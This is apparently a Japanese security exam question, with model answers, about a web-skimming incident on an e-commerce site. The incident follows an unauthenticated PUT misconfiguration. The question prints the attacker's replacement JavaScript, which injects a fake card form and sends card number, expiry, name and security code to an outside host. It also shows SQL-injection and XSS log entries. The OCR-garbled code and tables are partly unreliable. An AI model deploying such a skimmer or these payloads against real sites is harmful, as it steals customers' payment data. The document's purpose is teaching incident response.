

問3 クレジットカード情報の漏えい
J社は，インテリアを扱うECサイト（以下，J社のECサイトをJ社ECサイトという）を運営する、従業員200名の会社である。
[J社ECサイトの構成]J社ECサイトは、Web アプリケーションプログラム（以下、J社ECサイトのWeb アプリケーションプログラムをWebアプリPという）、Webサーバ及びDB サーバで構成されている。J社はWebアプリPの開発及び保守、並びにWebサーバ及びDB サーバの構築、管理及び保守をV社に委託している。Webアプリ Pのアプリケーションログには、アクセス日時、画面名、アカウント名，アクセステ IP アドレスなどが記録される。 」社ECサイトでの支払方法は、クレジットカード決済及び銀行振込に対応している。 クレジットカード決済はD社の決済代行サービスを利用している。D社の提供する決済用 ECMAScript プログラムを使用したトークン型決済を用いて、クレジットカード情報の非保持化を実現している。商品購入に関する画面の概要を表1に、画面遷移を図1に示す。
表1 商品購入に関する画面の概要（抜粋）画面名説明ショッピングカート購入対象としてショッピングカートに登録された商品を表示する。 ショッピングカートに登録した商品を購入する場合は、“購入”ボタンを押す。配送先・支払方法選択画面に遷移する。 配送先住所 1と支払方法を選択する。配送先住所を選択し、クレジ配送先・支払方法選択ットカード決済と銀行振込のいずれかの支払方法を選択して、“次へ”ボタンを押す。支払手続画面に遷移する。 支払手続支払方法に応じて、表示される内容及び入力する内容が異なる。クレジットカード決済の場合は、クレジットカード情報の入力フォームが表示される。D社の提供する決済用 ECMAScript プログラムによって，決済が行われる。銀行振込の場合は、振込先の口座情報が表示される。 注文完了ショッピングカート→配送先・支払方法選択→支払手続が完了した場合に表示される。この後に注文確認の電子メール 2が商品を購入した利用者に送される。 注1）利用者情報としてあらかじめ配送先住所を登録しておく。配送先住所は複数登録できる。 登録済みの配送先住所はプルダウンで選択できる。 注2）利用者情報としてあらかじめ電子メールアドレスを登録しておく。
/shopping/cart配送先・支払方法選択ショッピングカート配送先ご注文一覧単価（税込）No 商品名数量730,000円11商品17,500円12商品2お支払方法15,000円13商品3◎クレジットカード決済銀行振込小計 52,500円0円配送料合計 52,500円次へ購入戻る戻る
/confirm/payment注文完了支払手続ご利用金額52,500円クレジットカード情報の入力ご注文ありがとうございました。 →ご注文確認の電子メールをお送りカード番号したのでご確認ください。 月/年有効期限名義セキュリティコードトップへ注文戻る
注記1/cart などは URLのパス名を示す。 /cart 以外へのアクセスはJ社ECサイトへのログインが必要である。 注記2/cart 以外は直接アクセスするとトップページにリダイレクトされる。 注記 3図1 商品購入に関する画面遷移
[利用者からの問合せ]6月11日から12日にかけて、複数の利用者から、クレジットカード情報を入力する画面が2回表示されるという問合せ、及び支払方法が勝手にクレジットカード決済になってしまうという問合せがあった。J社ECサイト担当者のGさんは、偽のクレジ
ットカード情報入力フォーム（以下，偽フォームという）が表示された可能性があると考え、上司のRさんに報告した上で、Webサーバの6月11日のアクセスログに不審な点がないかどうかを確認した。Webサーバの6月11日のアクセスログのうち、不審と思われるアクセスを抽出したものを表2に示す。
表2 Webサーバのアクセスログメソッド行番号リクエスト URIステータスコード/products/list?page=4&category_id=1GET12002GET/login?id=hoge&pw=" UNION se lect 1 FRON.200200/mypage/user info3POST200/mypage/changePOST4200/cart?add=”> <script>document. getElementById（...GET5200GET/products/List?category=green's sota6PUT7/shopping405200/cartGET8200/paymentPOST9204/ec-j/layout/js/customize.jsPUT10注記1アクセス日時、User-Agent，リファラなどは省略している。 リクエストURI中の “...”は省略を表す。 注記2注記3リクエストURIは、URLデコード済みである。
次は、アクセスログに関するRさんとGさんの会話である。
- Rさん
- 偽フォームの表示が可能な攻撃の痕跡はあったのか。 ■脆弱性を狙った攻撃だと思いますが、1行目がGさん：表2のbaそういった攻撃であればフォームの表示が可能です。さらに施弱性が型であれば、1回の攻撃で多数の利用者に対してフォームの表示が可能です。
- d行目はRさん
- それとは別に、表2の脆弱性を狙った攻撃の痕跡だと思うが、仮にその脆弱性が存在した場合に、フォームの表示は可能なのか。
- Gさん
- WebアプリPが、DB サーバに格納している情報を基にWebページを動的に生成していれば可能かもしれません。
Rさん：承知した。その他，表2の10行目のPUTメソッドでファイルが更新されている点も気になる。以前、セキュリティベンダーに依頼して報告を受けているWebアプリPの弱性診断レポートに，脆弱性及び弱性の指摘があるかどうかと、PUT メソッドによる更新はV社によるものかどうか、V社に至急確認してほしい。
Gさんは、6月13日にV社に問い合わせた。また，最新バージョンのWebアプリPに対する弱性診断レポートを確認したところ、弱性の指摘はなかった。
[偽フォーム表示の原因の調査と対策］6月14日にV社から連絡があり、PUT メソッドによるファイル更新はV社によるものではなかったことが判明した。Webサーバに設置していた ECMAScript ファイルの一つ customize.js が攻撃者のファイル（以下、ファイルKという）に置き換えられていた。customize.jsは、通常時は空のファイルであり、Webサイトのデザインを一時的に変更する際に利用するものである。①配送先・支払方法選択画面でファイル Kが読み込まれており、HTMLの一部が書き換えられていた。この書換えによって、②配送先・支払方法選択画面から支払手続画面への画面遷移の処理で利用しているパラメータの値が変更され、支払方法がクレジットカード決済に固定されていた。フアイルKを整形したものを図2に、配送先・支払方法選択画面のHTMLソースを図3に示す。
if （location. pathname ==”/shopping'） ｛1：let elem = document. querySelector （"#shopping-form > div > div > div. orcer_payment2：> div.radio"） ；elem. innerHTML=”＜p＞カード番号くinput type="text" id="get_number”/＞</p＞＜p＞有効期3：限くinput type=" text” id="get_exp_month”1>月/<input type="text” id="get_exp_year”1＞年く/p＞＜p＞名義＜input type="text” idE"get_name”/></p＞＜p＞セキュリティコード＜input type=”text” id="get_code”/></p><input type="hidden” name="order[Payment］” value=”！”/>；let form = document. getE lementById（' shopping-form'）；4：form. addEventListener （'submit'，function（） 15：const req = new XMLHttpRequest（）；6：let number = document. getELementById（' get_number'）. value；7：8：let exp_month = document. getE lementById（ get_exp_month' ）.value；let exp_year = document. getElementById（' get_exp_year'）.value；9：let name = document. getE lementById（' get_name'）. value；10：let code = document. getElementById（'get_code'）.value；11：let url = 'https://i-sha.com/？nume + number + '8exp= + exp_month + '%2F"+12：exp_year + '&name=" + name +'&code=' + code；req. open（”GET”， urL）；13：req. send（）；14：T）；15：16：図2 整形後のファイルK
（省略）<form id="shopping-form”method=”post”action=”/payment”＞<div class="order”><div class="order_detail”>（省略）<div class="order_payment”><div>＜h2＞お支払方法く/h2＞/div＞<div class=”'radio”><input type=”radio”id="Payment_1” name="order [Payment］” required data-trigger=”change”value=”/” checked />＜label for="Payment_1”＞＜span＞クレジットカード決済く/span＞く/Label＞<input type="radio”id="Payment_ 2” name="order [Payment］” required data-trigger=”"change”value=”2”/>＜label fori"Payment_2”＞くspan＞銀行振込く/span＞く/Label＞</div>（省略）＜button type="'submit” class="blockBtn”＞次へく/button＞＜/form＞（省略）<script src=”/ec-j/layout/js/customize.js”></script>＜/body＞</html>注記 CSRF 対策のトークンの記述は省略している。 図3配送先・支払方法選択画面のHTMLソース
その後、6月16日にV社から、customize.jsの置換えについての調査結果及び対処の報告があった。その報告を図4に示す。
・V社でPUT メソッドに関する設定変更を6月8日18時12分に実施した。 Web サーバのファイル更新は、事前申請をした後に Webサーバに SSHで接続して行う運用であるが、V社の作業者が SSHで接続せずにファイルを更新できるように、/ec-j/layout/js/配下だけ、未認証でも PUT メソッドでファイルの更新を許可する設定にした。 ・V社で6月9日9時00分から10時42分の間にJ社ECサイトのメンテナンスを実施した。 メンテナンスではPUT メソッドを使用した。 ・customize.jsの置換えは6月11日13時12分に行われた。 PUT メソッドを使って、ファイルKに置き換えられた。 WebアプリPの仕様上，customize.js の読み込みは無効にできない。 customize.js以外のファイルの置換えはなかった。 ・6月16日8時5分にPUT メソッドによるファイルの更新を禁止する設定にし、customize.jsを置換え前のファイルに戻した。 ・6月 16日9時 00分にCache Busting を実施した。 ファイル K のキャッシュ破棄と customize.jsの再読込みの二つを行わせるための変更をした。 図4 V社からの調査結果及び対処の報告
[クレジットカード情報の漏えいの調査と対策]本件に関する利用者からの問合せは、6月15日21時45分が最後であり，合計 32件あった。次は、customize.jsの置換えによる影響の調査に関するRさんとGさんの会話である。
- Rさん
- クレジットカード情報入力フォームが2回表示されたのは、customize.jsが置き換えられていた影響でフォームが表示されたからだったのか。
- Gさん
- そのとおりです。2回目に表示されたクレジットカード情報入力フォームにクレジットカード情報を入力し、送信している場合だけ、当社で注文が完了していました。
- Rさん
- ダミーのクレジットカード情報を設定して図2でGET リクエストが送られる先のURLにアクセスしたところ、404のステータスコードが返ってきた。もし、攻撃者のWebサーバが適切なステータスコードを返しているとしたら、この結果から、攻撃者のWebサーバに Web アプリケーションプログラムが用意されておらず、クレジットカード情報は盗まれていないと判断してよいか。
- Gさん
- ③利用者が改ざんされた画面に入力して、クレジットカード情報が送信されてしまったときに、攻撃者のWebサーバで Webアプリケーションプログラムを用意していなくても，攻撃者は利用者の入力したクレジットカード情報を取得する方法があります。クレジットカード情報は盗まれたと判断すべきです。
- Rさん
- クレジットカード情報の漏えいの可能性について利用者に案内を出したい。 攻撃者のWeb サーバにクレジットカード情報を送信した利用者を特定してほしい。攻撃者のWebサーバに情報を送信してしまった利用者は漏れなく特定したいが、送していない利用者はできるだけ含めたくない。そのためには、どのようにすればよいのか。
- Gさん
- V社の報告から、customize.js の置換えの影響のあった期間は6月11日13時12分から6月16日9時00分と考えられます。攻撃者のWebサーバにクレジットカード情報を送信する直前までの操作をした利用者を被害者候補として特定するために、その期間のアプリケーションログからを抽出したいと思います。
- Rさん
- それで抽出してくれ。
その後，Gさんは、プロキシサーバなどのキャッシュの影響も考慮した上で、被害者候補を特定し、その情報を基に案内を出した。また、」社は、関係当局に報告、届出を行うとともに、V社と協力して再発防止策を検討し、実施した。さらに、Web サーバのファイルの改ざん検知の検討を行うことにした。
→~「eに入れる適切な行番号又は字句を答えよ。 設問1 本文中の設問2[フォーム表示の原因の調査と対策]について答えよ。 （1） 本文中の下線①について、書換え後の画面全体を図示せよ。 （2） 本文中の下線②について、パラメータ名とその値を答えよ。 （3） 図2について、4～15行目の処理内容を具体的に答えよ。 設問3 [クレジットカード情報の漏えいの調査と対策]について答えよ。 （1） 本文中の下線③について、攻撃者のWeb サーバでクレジットカード情報を取得する方法を答えよ。 （2） 本文中の＋に入れる適切な字句を答えよ。
問3 ECサイトのWebスキミング（クレジットカード情報漏えい）
設問1
解答例
a＝5 b＝クロスサイトスクリプティング c＝格納 d＝2 e＝SQLインジェクション
Webスキミング攻撃の調査。ECサイトに格納型XSSが存在すると、攻撃者がJavaScriptを埋め込み、カード情報入力フォームのデータをリアルタイムで外部送信できる（Magecart攻撃）。SQLインジェクションで管理者権限を奪取してスクリプトを注入するケースも多い。
設問2(1)
解答例

設問2(2)
解答例
パラメータ名：order[Payment] 値：1
HTTPリクエストのパラメータ解析。PHPのPOSTパラメータで配列形式（order[Payment]）を利用するケースの読み方。フォームの非表示フィールドや隠しパラメータも確認対象となる。
設問2(3)
解答例
addEventListenerメソッドで配送先・支払方法選択画面のform要素にイベントリスナーを登録し、submit時にクレジットカード情報をクエリパラメータとしてi-sha.comに送信する
JavaScriptによるフォームジャッキングの手法。formのsubmitイベントにlistenerを追加し、送信前にカード情報を盗む。CSP（Content Security Policy）でscript-srcを適切に設定することで外部スクリプトの読み込みをブロックできる。
設問3(1)
解答例
WebサーバのアクセスログのリクエストURIから情報を取得する
GETリクエストのクエリパラメータとして外部送信される場合、Webサーバのアクセスログにカード情報が記録される。ログから対象ページへのアクセス者を特定し、被害範囲を確定する。
設問3(2)
解答例
配送先・支払方法選択画面にアクセスしたアカウント名
被害範囲の特定。スキミングスクリプトが有効だった期間中に配送先・支払方法選択画面を表示したユーザが被害者候補。アクセスログ・セッションログからアカウントを絞り込む。